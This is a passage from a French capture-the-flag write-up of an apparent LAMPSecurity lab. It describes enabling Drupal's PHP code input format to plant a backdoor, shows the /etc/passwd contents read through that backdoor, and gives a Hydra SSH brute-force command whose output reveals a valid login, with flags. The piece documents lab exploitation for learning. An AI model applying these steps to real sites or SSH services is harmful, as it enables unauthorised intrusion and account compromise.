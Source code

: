 Je n'ai pas eu le courage d'aller jusqu'à la fin des utilisateurs. L'important est de disposer du compte admin *Drupal*.  

Finalement le plus dur dans ce challenge aura été de trouver comment placer du \*biiip\* code PHP dans cette \*biiip\* de *Drupal* de \*biiip\* (\*biiip\* !).  

Donc avis à la populace, il faut d'abord s'assurer que le module *"Input formats"* est bien activé dans les modules (*modules > Filter*).  

Dans les *Input formats,* il faut alors s'assurer que *PHP code* est présent et que son option *PHP evaluator* est cochée.  

Et enfin lors de l'édition d'un contenu (article, etc.) il faut switcher le *Input format* sur *PHP code*.  

Une backdoor classique permet alors d'accéder au système de fichier.  

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
--- snip ---
sabayon:x:86:86:Sabayon user:/home/sabayon:/sbin/nologin
jharraway:x:500:504::/home/jharraway:/bin/bash
spinkton:x:501:505::/home/spinkton:/bin/bash
sholden:x:502:506::/home/sholden:/bin/bash
bdio:x:503:507::/home/bdio:/bin/bash
jalderman:x:504:508::/home/jalderman:/bin/bash
gconnor:x:505:509::/home/gconnor:/bin/bash
sswiney:x:506:510::/home/sswiney:/bin/bash
dhart:x:507:511::/home/dhart:/bin/bash
gprune:x:508:512::/home/gprune:/bin/bash
hplink:x:509:513::/home/hplink:/bin/bash
jgrimes:x:510:514::/home/jgrimes:/bin/bash
shunter:x:511:515::/home/shunter:/bin/bash
jingersol:x:512:516::/home/jingersol:/bin/bash
mswanson:x:513:517::/home/mswanson:/bin/bash
jstone:x:514:518::/home/jstone:/bin/bash
jgoldman:x:515:519::/home/jgoldman:/bin/bash
tmaloney:x:516:520::/home/tmaloney:/bin/bash
xbruce:x:517:521::/home/xbruce:/bin/bash
sloreman:x:518:522:#flag#5b650c18929383074fea8870d857dd2e:/home/sloreman:/bin/bash
```

Vici
----

Je réutilise les identifiants *Drupal* pour tenter de trouver un compte Unix :  

```console
$ ./hydra -L users.txt -P passwords.txt ssh://192.168.1.60
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-18 18:16:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 38 login tries (l:19/p:2), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.60   login: spinkton   password: football123
[STATUS] attack finished for 192.168.1.60 (waiting for children to finish) ...
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-18 18:17:17

$ ssh spinkton@192.168.1.60
Welcome to LAMPSecurity Research SSH access!
#flag#5e937c51b852e1ee90d42ddb5ccb8997

```